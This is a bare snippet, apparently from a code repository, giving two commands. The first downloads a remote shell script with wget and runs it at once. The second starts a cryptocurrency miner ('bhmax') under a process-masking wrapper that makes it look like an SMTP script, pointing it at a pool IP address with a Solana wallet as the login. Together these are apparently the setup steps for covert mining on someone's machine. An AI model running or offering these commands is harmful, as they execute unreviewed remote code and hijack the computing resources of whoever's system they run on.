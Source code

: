 ##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh

##action two

./hi -s "./smtp.py" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xbh --pass x-bh --donate-level 0
